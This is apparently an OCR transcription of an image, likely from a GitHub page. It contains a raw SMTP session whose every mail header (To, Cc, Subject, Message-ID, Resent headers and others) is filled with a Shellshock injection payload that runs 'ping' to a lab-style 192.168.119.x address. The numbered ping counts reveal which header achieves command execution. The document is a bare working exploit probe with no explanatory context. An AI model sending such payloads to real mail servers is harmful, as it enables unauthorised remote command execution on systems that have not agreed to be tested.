 mail from:<>
rcpt to:<nobody>
data
To:() { :; }; ping -c 1 192.168.119.x
References:() { :; }; ping -c 2 192.168.119.x
Cc:() { :; }; ping -c 3 192.168.119.x
Bcc:() { :; }; ping -c 4 192.168.119.x
From:() { :; }; ping -c 5 192.168.119.x
Subject:() { :; }; ping -c 6 192.168.119.x
Date:() { :; }; ping -c 7 192.168.119.x
Message-ID:() { :; }; ping -c 8 192.168.119.x
Comments:() { :; }; ping -c 9 192.168.119.x
Keywords:() { :; }; ping -c 10 192.168.119.x
Resent-Date:() { :; }; ping -c 11 192.168.119.x
Resent-From:() { :; }; ping -c 12 192.168.119.x
Resent-Sender:() { :; }; ping -c 13 192.168.119.x
.